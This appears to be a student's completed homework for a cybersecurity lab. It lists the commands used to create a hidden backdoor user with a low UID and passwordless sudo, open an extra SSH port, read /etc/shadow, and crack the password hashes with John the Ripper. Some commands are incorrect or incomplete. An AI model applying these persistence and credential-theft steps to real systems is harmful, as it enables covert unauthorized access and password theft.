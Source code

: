 ## Advanced Bash - Owning the System
Please edit this file by adding the solution commands on the line below the prompt.
Save and submit the completed file for your homework submission.
## Step 1: Shadow People
Create a secret user named sysd. Make sure this user doesn't have a home folder created:
Your solution command here

- *sudo adduser sysd*

![creating a secret user](./Images/snap_1.PNG)

Give your secret user a password:
Your solution command here

- *sudo passwd sysd*

![giving a password](./Images/snap_x.PNG)

Give your secret user a system UID < 1000:
Your solution command here

- *sudo usermod -u 160 sysd*

Give your secret user the same GID:
Your solution command here

- *sudo groupmod -g 100 sysd*

![giving a GID](./Images/snap_2.PNG)

Give your secret user full sudo access without the need for a password:
Your solution command here

- *sudo visudo*

![giving a full sudo access](./Images/snap_3.PNG)

Test that sudo access works without your password:
Your bash commands here
- *sudo sysd*
- *sudo cat /etc/shadow*

![giving a without password access](./Images/snap_y.PNG)


### Step 2: Smooth Sailing


Edit the sshd_config file: sudo nano sshd_config
Your bash commands here
- *Port 22*
  *Port 2222*

  ![adding port 222](./Images/snap_4.PNG)


### Step 3: Testing Your Configuration Update

Restart the SSH service:
Your solution command here

- *service ssh restart*

![restarting](./Images/snap_5.PNG)


Exit the root account:
Your solution command here

- *exit*


SSH to the target machine using your sysd account and port 2222:
Your solution command here

- *ssh sysd@192.168.6.105 -p 2222*

![Hacking the target Machine](./Images/snap_6.PNG)


Use sudo to switch to the root user:
Your solution command here

- *sudo su*

![switching to root](./Images/snap_7.PNG)


### Step 4: Crack All the Passwords

SSH back to the system using your sysd account and port 2222:
Your solution command here

- *ssh sysd@192.168.6.105 -p 2222*

![back to the system](./Images/snap_6.PNG)

Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
Your solution command here

- *john shadowaf*

![breaking all the passwords](./Images/snap_9.PNG)

